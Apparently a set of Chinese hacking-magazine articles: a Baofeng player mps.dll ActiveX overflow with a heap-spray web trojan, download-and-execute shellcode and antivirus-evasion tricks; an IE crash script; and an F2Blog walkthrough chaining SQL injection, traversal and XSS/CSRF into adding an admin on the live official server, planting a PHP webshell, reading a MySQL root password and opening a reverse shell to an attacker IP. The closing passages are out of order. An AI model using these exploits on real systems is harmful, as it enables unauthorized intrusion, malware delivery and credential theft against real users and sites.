

“你的软件你做主！”，中国最大的影音播放平台暴风影音近日正式启动了由用户参与软件研发过程的“完美行动”。在活动中，用户可以通过投票、在论坛与工程师沟通等方式参与到暴风影音最新版本的研发当中。这种与用户密切沟通的研发方式在中国首创了用户互动式的软件研发形式。——看到暴风的这个“完美行动”，个人感觉很不错，同时也想为其做做安全检查。

目前，ActiveX 漏洞正值流行。经过我的测试，发现“暴风影音II”中的控件 mps.dll 存在多处严重的 ActiveX 栈溢出漏洞。如果安装有该软件的用户打开了特制的恶意网页，触发漏洞后将可在用户主机上执行任意指令！

##### 漏洞分析

我们首先来收集一些 mps.dll 控件的相关信息。如何得到 mps.dll 控件的信息呢？这里推荐大家使用 COM Explorer 这款软件，它可以展示出系统中注册的所有控件及其属性，如图1所示。

ProgID 是 MPS.StormPlayer.1；其 CLSID 是 6BE52E1D-E586-474F-A6E2-1A85A9B4D9FB。文件路径是 D:\PROGRA~1\STORMII\MPS.DLL。有了这些信息，我们就知道在网页中应该如何引用这个控件了。一般有如下两种方法来引用这个控件。

```html
<object classid="clsid:6BE52E1D-E586-474F-A6E2-1A85A9B4D9FB" id=target></object>
```

或者

```javascript
target = new ActiveXObject("MPS.StormPlayer.1");
```

上面的任意一种方法都可以实现在网页中创建控件对象。现在我们的问题就是，mps.dll 中到底有哪些函数可以调用，参数分别是什么？

我的办法是，用 VS2005 中的“对象浏览器”来浏览控件中的函数和参数信息。具体地说，我们可以先在 VS2005 中建一个工程或项目，然后给项目添加引用，添加的引用就指定到刚才查出来的文件路径下的 mps.dll，如图2所示。



图1


图2

通过这款软件，我们可以看出 mps.dll 控件的参数、类中的成员变量等等。经过我的测试，发现在 StormPlayerClass 这个类中有三个函数存在栈溢出漏洞，分别是：

```cpp
public virtual void advancedOpen(string bstrURL, string bstrPlayerID)
public virtual void isDVDPath(string bstrPath)
public virtual MPSLib.mediaCollection rawParse(string URL)
```

这里我们选一个函数来分析漏洞发生的原因，我选择了第二个函数——rawParse。其所传递的畸形参数是 4096 字节的一个超长字符串，每个字节的内容都是“\xFF”。传入此参数后，暴风控件直接溢出，导致 IE 崩溃。用 OllyDBG 跟踪后发现报“内存取指错误”的异常。原因是连续“\xFF\xFF\xFF\xFF”覆盖了函数返回地址（EIP），程序去该地址取指令必然错误。

再通过 IDA 反汇编 parser.dll（mps.dll 调用）后，发现溢出点是下面的一段代码。

```asm
.text:10002582 loc_10002582:
.text:10002582 lea eax, [ebp+pszPath]
.text:10002588 push edi
.text:10002589 push eax
.text:1000258A call ds:lstrcpyA
; 溢出！！！
```

我们知道 kernel32.dll 中的函数 lstrcpyA 并不安全，如果用户不会使用的话，是一定会发生溢出的。因为 lstrcpyA 负责把第2个参数指向的字符串复制到第1个参数指定的位置，不做任何长度检查。由于栈帧空间有限，而畸形参数长度无限，所以溢出没有商量。至此，我们已经找到程序溢出的原因——lstrcpyA 函数使用不当，没有做参数长度检查！下面我们来写网马和网马生成器。

##### 漏洞利用

这个漏洞是一个典型的 ActiveX 栈溢出漏洞，可以写标准的网马，挂在大网站上，让用户访问。只要用户安装了最新版的暴风影音，就会中我们的网马。

如果我们把上面的参数值“\xFF\xFF\xFF\xFF”换成“\x0a\x0a\x0a\x0a”之类的地址，并且在这个地址附近事先用 JS 分配好内存块，其中写好 nops+ShellCode，程序溢出后会跳到“\x0a\x0a\x0a\x0a”，而这是一段 nop 指令，执行完后就进入了 ShellCode。这就是我们利用这个漏洞的思路。

我们先来写一个如下的网马。

```html
<html>
<object classid="clsid:6BE52E1D-E586-474F-A6E2-1A85A9B4D9FB" id=target></object>
<body>
<script language="javascript">
var shellcode = unescape("...");
var bigblock = unescape("%u9090%u9090");
var headersize = 20;
var slackspace = headersize + shellcode.length;
while (bigblock.length < slackspace) bigblock += bigblock;
fillblock = bigblock.substring(0, slackspace);
block = bigblock.substring(0, bigblock.length - slackspace);
while (block.length + slackspace < 0x40000) block = block + block + fillblock;
memory = new Array();
for (x = 0; x < 300; x++) memory[x] = block + shellcode;
var buffer = "";
while (buffer.length < 4096) buffer += "\x0a\x0a\x0a\x0a";
target.rawParse(buffer);
</script>
</body>
</html>
```

这个网马的 ShellCode 是下载“http://127.0.0.1/calc.exe”到目标主机上并执行。如果不想改这个 URL，就需要用生成器。生成器界面如图3所示，使用非常简单，把你需要的 URL 填入输入框即可，点击确定就可以生成符合要求的网马。

最后我们再来看一下生成器生成网马的效果。首先是过卡巴斯基：其扫描是否为网马本质是查找特征码。后来通过处理实现了绕过，只要在网马中调整相关内容即可规避其识别。



图3



图4

ShellCode 后多加一对标签就可以过卡巴斯基了，所加的标签如下：

```html
</script>
<SCRIPT language="javascript">
```

它的作用就是分隔 ShellCode 和下面的触发漏洞的 JS，这样一改就可以简单地绕过卡巴斯基了，哈哈！如图4所示。经过我的测试，瑞星卡卡也是拦不住这个网马的！图5是网马执行的最后效果，成功调用了 calc.exe 文件。至此，我们的暴风影音 mps.dll ActiveX 栈溢出漏洞就分析完毕了。总的来说，这个漏洞的威力还是比较大的，下载、执行、挂马，想干什么都随你所为，只要是安装了暴风影音的机器，都逃不过你的手掌心。



图5

---

适合读者：漏洞爱好者

前置知识：无

## IE脚本解析错误拒绝服务漏洞


文／图 爱无言

最近关于 IE 的漏洞真是层出不穷，不是什么控件出现问题就是脚本出现漏洞，我都开始怀疑自己是不是用错浏览器了。几乎每天我们都能看到各种各样的关于 IE 的网页木马，这些让我们的爱机备受折磨的网页木马，大部分都是因为 IE 本身的漏洞导致的。其实很久以前我就发现了这个关于 IE 的拒绝服务漏洞，虽然只是一个拒绝服务漏洞，但微软至今未发现。从 IE6 就存在这个问题，现在的 IE7 同样受到影响。这里把它写出来，一是与大家分享，二是希望能引起官方的注意，如果 IE 一直这样令人忧心重重，恐怕会失去更多的人心。

出现问题的地方主要是在利用脚本语句中的 setAttribute 函数进行赋值操作时，IE 没有对动态创建的对象正确利用 setAttribute 函数对其属性值赋值，产生了空指针操作，从而出现 IE 拒绝服务现象。具体问题是出现在对 `<li>` 标签的 value 属性操作上面，这里给出如下的测试代码：

```html
<script>
  com = document.createElement('li');
  com.setAttribute('value', 'Crashie');
</script>
```

代码第一句是利用 document 对象的 createElement 方法创建一个“li”对象，第二句是对刚创建的 li 对象利用 setAttribute 函数进行对“value”值的赋值操作。正是这样一个简单的脚本语句，IE 在解析的时候竟然出现了引用空指针错误，具体动态调试如图1和图2所示。


图1


图2

图1是 IE6 的动态调试截图，图2是 IE7 的动态调试截图，可以看出出现错误的地方是在同一个函数里。虽然这里两个函数有一定区别，但是都是因为在函数中使用了一个空指针的调用，从而使得 IE 出现错误。

这里你一定会问，在这些众多的因为 IE 空指针引发的拒绝服务漏洞里，我们是如何确定这是一个空指针的引用错误呢？其实这个确定很简单，我们无非是需要测试在 IE 正常运行的时候，这个函数在执行到出错指令时，内存中的具体情况。一定要保证我们能够触发这个出错的函数，因为正确的网页文件不一定会被 IE 利用这个出错的函数来解析，所以这里我们要构建一个能触发出错函数但却又正常的网页文件。

听起来很难，其实很简单。我们这里是因为在操作“li”对象时导致 IE 出错的，那么如果我们在网页里这样写 `<li vaule=1l>sss</li>`，注意不包括双引号，这样的语句是能被 IE 正常显示的，并且也触发了上面那个出错的函数。用 OD 挂接 IE 进程，在出错的那条指令 `mov ecx,dword [esi]` 上面下断点，把这个正常的网页投进 IE 里，此时断点被触发。esi 的值指向的内存值与 ecx 指向的内存值一样，只是位置不一样。当执行完这句指令时，ecx 被调整位置到 esi，但其指向的还是同一个内存值。

这个调整相当于一个获取参数的效果，就等价于获取一个指针参数给函数本身，所以我们判断这是一个由于 IE 脚本解析编写人员的马虎，使得在利用脚本对“li”这个对象的 value 值操作时，出现了非法的空指针，让 IE 崩溃。

综合看起来，这个漏洞是非常简单的，但是 IE 的编写人员似乎一直没有发现这个问题，IE6 和 IE7 都使用了同样的解析方式，问题出在 mshtml.dll 库文件的脚本解析方面。因为问题不大，我没有非常具体地跟踪这个漏洞。出错的这个脚本在 FireFox 浏览器里是可以正常解析的。也许上面我分析的过程中也存在错误，恳请大家在学习的同时能给予指正，具体问题欢迎大家在黑防官方论坛上讨论。

---

适合读者：入侵爱好者

前置知识：PHP语法

## “跨”进F2Blog官方服务器
### 全面剖析F2Blog漏洞

文/图 ITECT[E.S.T]


F2Blog 是以 TT 为蓝本设计，使用了与 PJBlog 共用的 Skin，具有自己的 Skin 特色，可以在一个 F2Blog 专用的 CSS 中进行控制，同时又参考了 WordPress 等 Blog，把多个 Blog 的优点整合而成了 F2Blog。它易于安装和操作，Skin 资源丰富，易于制作，支持 PHP+MySQL、Linux 和 Windows。

了解了 F2Blog 之后，我们来看看这套程序的安全性。下面我将从 SQL 注入、跨站、目录遍历这三个漏洞出发，详细分析 F2Blog 程序的漏洞，然后再用跨站的方法检测官方服务器。

##### 漏洞分析

- 1) SQL注入漏洞

在 RSS.PHP 文件的第 1~13 行有如下代码：

```php
include_once('include/function.php');
if($_GET['cateID']!=""){
    $seekcate=$_GET['cateID'];
    $find_sql="select id from ".$DBPrefix."categories where parent='$seekcate' or id='$seekcate'";
    $find_result=$DMC->query($find_sql);
    ...
}
```

从上面的代码我们知道，语句 `$find_sql='select id from '.$DBPrefix.'categories where parent='$seekcate' or id='$seekcate''` 由于没有过滤，存在 SQL 注入漏洞。如果 magic_quotes_gpc 为 on，那么提交的 `'` 将被转义处理；若 magic_quotes_gpc 为 off，我们就可以利用了。像这种注入点还存在很多，由于此漏洞利用价值不大，这里就不多讲了。

- 2) 目录遍历漏洞

admin/attachments_list.inc.php 文件中的第 10~16 行的代码如下：

```php
$action=$_GET['action'];
$mark_id=$_GET['mark_id'];
$seekname=$_REQUEST['seekname'];
$seektype=$_REQUEST['seektype'];
$basedir=(isset($_GET['basedir']))?$_GET['basedir']:'/attachments/';
if(strrpos($basedir,'/')!=strlen($basedir)-1) $basedir.='/';
...
```

从上面代码的分析，我们可以自定义打开文件的路径，以下第 80~116 行代码的作用是读取文件到目录：

```php
if($action=='add'){
    include('attachments_add.inc.php');
}else if($action=='edit' && $_GET['file_id']!=""){
    $file_id=$_GET['file_id'];
    ...
    include('attachments_edit.inc.php');
}else{
    // 查找和浏览
}
```

```php
$title="$strAttachmentsTitle";
$handle=opendir("$basedir");
// $basedir 为提交路径，opendir 打开目录句柄
while ($file = readdir($handle)) {
    // 从目录句柄中读取条目
    if (is_file($basedir.$file)) {
        $filetype=getFileType($file);
        if ($seektype!="") {
            if (stripos(",$seektype,",$filetype)>0) {
                $filelist[] = $file;
            }
        } else if ($seekname!="") {
            if (stripos(",$file,",$seekname)>0) {
                $filelist[] = $file;
            }
        } else {
            $filelist[] = $file;
        }
    }
    if (is_dir($basedir.$file) && $file!="." && $file!="..") {
        $folderlist[]=$file;
    }
}
closedir($handle);
if (count($filelist)>0) sort($filelist);
if (count($folderlist)>0) sort($folderlist);
include('attachments_list.inc.php');
```

从上面的代码我们可以看出，变量 `$basedir` 未经过任何处理。如果我们提交 `attachments.php?basedir=c:\`，那么将会显示 C 盘的所有目录和文件，结果如图 1 所示（测试官方效果图）。

由于此文件只有管理员才能访问，所以要有管理员权限才能利用此漏洞。不过没关系，后面我们有突破后台的方法。

## 3）跨站漏洞

可以这么说，这个漏洞对于 F2Blog 来说是致命的，我成功地利用此漏洞进入了官方后台和所有 F2Blog 程序。下面我们就一起来分析一下漏洞的成因。


图 1 测试官方效果图

`include/applylink.inc.php` 文件中的第 55～79 行的代码如下：

```php
if ($_GET['action']=="save") {
    $blogName=trim($_POST['blogName']);
    $blogUrl=trim($_POST['blogUrl']);
    $blogLogo=trim($_POST['blogLogo']);

    // 检测验证码
    if (($_POST['validate']!=$_SESSION['backValidate']) && $settingInfo['isValidateCode']==1)
        $ActionMessage=$strGuestBookValidError;
    else if (($blogName=="") or ($blogUrl==""))
        $ActionMessage=$strErrBlank;
    else {
        $rs=...getFieldValue(...);
        if ($rs!="")
            $ActionMessage=$strDataExists;
        else {
            $sql="INSERT INTO ... (name,blogUrl,blogLogo) VALUES (...)";
            $DMC->query($sql);
            $ActionMessage=$strApplyWaitApprove;
        }
    }
}
```

注意看上面的代码，可以发现 `$blogName` 经过了 Encode 函数处理。Encode 函数的代码如下：

```php
function encode($string){
    $string=trim($string);
    ...
}
```

```php
$string=str_replace('&','&amp;',$string);
$string=str_replace('"','&quot;',$string);
$string=str_replace("'",'&#39;',$string);
$string=str_replace('<','&lt;',$string);
$string=str_replace('>','&gt;',$string);
$string=str_replace('&nbsp;','&nbsp;',$string);
$string=nl2br($string);
return $string;
```

由于 `$blogName` 经过了 Encode 函数处理，所以我们不能在 blogName 内输入跨站代码，但是 `$blogUrl` 和 `$blogLogo` 除了经过 `magic_quotes_gpc` 过滤外，再没有经过任何过滤，所以我们可以提交不带双引号和单引号的 XSS 代码。比如我们在网站名称处输入 baidu.com，网站地址处输入 `http://www.baidu.com<script>alert(/xss/)</script>`，博客 Logo 处输入 `http://www.baidu.com/logo.gif`，如图 2 所示。


图 2

当我们的管理员登录后台后，首先进入的是控制面板，审核链接后的 2 个待审核提示会很醒目地提醒管理员，如图 3 所示。就算管理员现在不点击审核，当他点击链接管理的时候，同样会出现我们的跨站代码，如图 4 所示。

呵呵，现在你想到了什么？利用跨站脚本来添加管理员。不过，在这之前我们得先看看后台加管理员的代码是否允许外部提交数据才行（如果禁用了外部提交数据，就是行不通的）。


图 4

再看看 `admin/users.php` 文件中的第 1～7 行代码：

```php
require_once('./function.php');
// 验证用户登录状态和权限状态
check_login();
$pageID=4;
$title=$strUserMang;
```

上面的函数 `check_login()` 位于 `admin/function.php` 中，其代码如下：

```php
function check_login(){
  // Session 验证
  if($_SESSION['username']!='' && $_SESSION['password']!=''){
    // 如果 username 和 password 的 Session 值不为空
    if(!check_user_pw($_SESSION['username'],$_SESSION['password'],true)){
      login_page();
    }
  }elseif($_COOKIE['username']!='' && $_COOKIE['password']!='' && $_COOKIE['rights']=='admin'){
    $_SESSION['username']=$_COOKIE['username'];
    $_SESSION['password']=$_COOKIE['password'];
    $_SESSION['rights']=$_COOKIE['rights'];
    if(!check_user_pw($_SESSION['username'],$_SESSION['password'],true)){
      login_page();
    }
  }else{
    login_page();
  }
}
```

从以上代码我们可以看出，后台加用户页面只验证了用户是否登录，没有对外部提交的数据进行验证，所以我们可以构造代码跨站让管理员“心甘情愿”地为我们增加一个新管理员。对于这种方法，在做官方测试时我将作详细说明。除了此文件外，在发表评论等几处仍存在同样的漏洞，大家可以自己下载下来分析。到此第一部分漏洞分析完毕，下面我们进入跨进官方服务器的实战。

## 跨进官方服务器

打开官方网站，如图 5 所示。由于官方不是采用的 F2Blog 程序，所以我们就先来测试其软件开发和美术设计人员的 Blog，分别为 http://korsen.f2blog.com、http://joesen.f2blog.com、http://leison.f2blog.com 和 http://yudesign.f2blog.com。我们先 Ping 一下 korsen.f2blog.com、yudesign.f2blog.com 和 www.f2blog.com，发现其 IP 相同，均为 203.85.245.197，如图 6 所示。这意味着，如果我们能进入其中任意一个网站后台，就有机会获取官方服务器权限。下面开始检测。


图 5


图 6

我们以 http://yudesign.f2blog.com 为例，在网站名称内填入 joe's blog，网站位置填上 `http://joesen.f2blog.com <iframe src=http://www.xyf99.com/img/1.htm width=0 height=0></iframe>`，注意在 http://joesen.f2blog.com 后面多加几个空格，博客 Logo 填上 http://yudesign.f2blog.com/images/logo.gif，如图 7 所示。


图 7

这里填上的 http://www.xyf99.com/img/1.htm 即为我精心构造的跨站代码，主要代码如下：

```html
<body onload=urlok()>
// 页面加载时实现自动提交
<script language="javascript">
function urlok(){
  // 辅助页面自动提交的函数
  document.forms[1].submit();
}
</script>
<form action="http://yudesign.f2blog.com/admin/users.php?see=name&order=&page=&mark_id=&action=save" method="post" name="f1">
  <div id="content">
    <div class="contenttitle">用户新增</div>
    <div class="subcontent">
      <table width="100%" border="0" cellspacing="0" cellpadding="0">
        <tr class="subcontent_input">
          <td width="10%" nowrap class="input_titleblue">用户名</td>
          <td width="90%"><input name="addusername" class="textbox" type="text" size="30" maxlength="20" value="manger"></td>
        </tr>
        <tr>
          <td width="10%" nowrap class="input_titleblue">登入密码</td>
          <td width="90%"><input name="addpassword" class="textbox" type="password" size="30" maxlength="20" value="147258"></td>
        </tr>
        <tr>
          <td width="10%" nowrap class="input_titleblue">确认密码</td>
          <td width="90%"><input name="passwordcon" class="textbox" type="password" size="30" maxlength="20" value="147258"></td>
        </tr>
        <tr>
          <td width="10%" nowrap>用户昵称</td>
          <td width="90%"><input name="nickname" class="textbox" type="text" size="30" maxlength="20" value="manager"></td>
        </tr>
      </table>
    </div>
  </div>
</form>
```

```html
<td width="90%">
  <input name="email" class="textbox" type="TEXT" size="30" maxlength="100" value="">
  <input name="isHiddenEmail" type="checkbox" value="manager@163.com" checked /> 不公开我的电子邮件
</td>
...
<td width="10%" nowrap>个人主页</td>
<td width="90%">
  <input name="homePage" class="textbox" type="TEXT" size="30" maxlength="100" value="http://">
</td>
...
<td width="10%" nowrap>角色</td>
<td width="90%" style="padding-top:5px">
  <select name="role" class="searchbox">
    <option value="author">撰写者</option>
    <option value="editor">编辑者</option>
    <option value="admin" selected>管理员</option>
    <option value="member">用户</option>
  </select>
</td>
```

为了更隐蔽，我们使用 Escape 将其加密，然后将代码作如下处理：

```html
<script LANGUAGE="JavaScript">
  var code="已加密源码";
  document.write(unescape(code));
</SCRIPT>
```

再将此文件上传到一个空间内，提交成功后，就等管理员进后台这唯一的一步了。F2Blog 的管理员挺快的，三小时后我已利用上面的脚本增加了管理员 manager，并成功登录了后台，如图 8 和图 9 所示。


成功登录官方后台后，在“常规管理→其它设置”里有“允许附件上传类型”，我们加上 php 和 asp，如图 10 所示。然后进“日志管理→写新日志”，在下方有个上传附件的地方，选择我们的 PHP 木马进行上传，如图 11 所示。


本以为这样就可以顺利上传了，结果却让我大失所望，上传出错了，如图 12 所示。再测试上传 ASP 木马，虽然说上传成功，但在访问的时候，却出现了下载提示，如图 13 所示。看来这两条路都走不通了，无奈之下，再转向源代码，进行仔细分析，看看是否有突破的方法。

经过 1 个小时的苦战后，终于找到了可以利用的地方。在 `include/cache.php` 文件中的第 5～35 行的代码如下：

```php
function writetocache($cachename, $cachedata='', $cachetype='php') {
    $cachedir = F2BLOG_ROOT.'/cache/';
    if(!is_dir($cachedir)) {
        @mkdir($cachedir,0777);
    }
    $cachefile = $cachedir.'cache_'.$cachename.'.php';
    if($fp = fopen($cachefile,'w+')) {
        if($cachetype=='php') {
            // 将 $cachedata 写入 cache 文件
        }
    }
}
```


图 12


图 13

```php
@fwrite($fp,"<?php\r\n//F2Blog ...");
...
function settings_recache(){
    global $DMC,$DBPrefix;
    $contents='';
    $settingInfo=array();
    ...
    writetocache('setting',$contents);
}
```

如果我们调用了上面的代码，那么 `cache/cache_setting.php` 中的文件内容将会以如下形式的代码呈现。

```php
<?php
//F2Blog setting cache file
$settingInfo=array(
 'About'=>'aaa',
 'adminPageSize'=>'15',
 'adminPerPage'=>'25',
 'adminstyle'=>'new',
 'ajaxstatus'=>'P,G,T',
 'allowComment'=>'1',
 'allowTrackback'=>'1',
 'applylink'=>'1',
 'archivesmonth'=>'8',
 'attachDir'=>'0',
 'attachType'=>'gif,jpg,rar,zip,doc,xls,pdf,ico,png,swf,wma,wav,mp3,wmv',
 'autoSave'=>'1',
 'autoSplit'=>'0',
 'autoUrl'=>'0',
 'backupSize'=>'1024',
 'blogKeyword'=>'myblog'
);
```

在上面的代码中，BlogKeyword 即为博客关键字，为了很好地闭合以使我们的代码起作用，我们在博客关键字内填入 ...'，写进 `cache/cache_setting.php` 后就变成了 ...。至此我们就可以利用一句话 PHP 木马连接了。图 14 为用一句话 PHP 木马插入官方的图示。


图 14

利用此小马我查看了一下整个主机的目录结构，结果不出我所料，果然发现官方网站也在这台主机上，图 15 中的 URL：www.f2blog.com 就是啦。前面在目录遍历漏洞中，我无意中发现了 `c:/windows/my.ini`，由于后台没有编辑功能，所以我们可以利用一句话木马的查看文件来获取官方的 Root 密码，如图 16 所示。有了 MySQL Root 用户的密码，我们下一步要做的就是利用 mix.dll 反弹回来一个 Shell，从而控制整...

图15

上面反弹的 IP 是 203.85.245.253，而我们前面 Ping 出的结果是 203.85.245.197，所以我觉得很可能是内网。于是利用 ipconfig 查看，结果证明了我的猜想，如图19所示。再次利用 `netstat -an | find "3389"` 查看，发现终于开启了，于是上传 HT 进行端口映射。HT 的利用方法和 LCX 差不多，只是多了一个 `-p` 的参数，如图20所示。

图19

图16

个服务器。这里我使用了一个 superhei 写的 exp，我们作如下设置，如图17所示。

图17

图20

```php
$host='localhost';      // 服务器主机IP
$user='root';           // MySQL用户名
$pass='ia0eccr4x5o';    // MySQL Root密码
$gt_db='mysql';
$chost='202.194.xx.xxx'; // 反弹IP
$cport='9797';          // 反弹端口
```

我们将此 exp 文件上传到官方服务器，先在主机 202.194.xx.xxx 用 NC 监听，然后用浏览器访问我们的 exp，成功返回了 Shell，如图18所示。

